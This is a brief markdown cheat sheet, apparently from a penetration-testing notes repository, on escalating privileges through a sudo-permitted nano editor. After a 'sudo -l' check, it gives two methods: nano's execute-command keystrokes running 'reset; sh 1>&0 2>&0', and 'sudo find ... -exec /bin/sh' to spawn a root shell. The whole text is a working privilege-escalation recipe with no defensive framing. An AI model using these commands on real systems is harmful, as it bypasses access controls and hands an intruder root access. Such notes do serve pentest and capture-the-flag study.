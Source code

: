 # Nano
***

- List commands that a user is allowed to execute with superuser privileges
```sh
sudo -l
```

- Method 1
```sh
sudo nano 
ctr + R
ctr + X
reset; sh 1>&0 2>&0  # hit enter
clear
```

- Method 2
```sh
sudo find /bin -name nano -exec /bin/sh \;
```
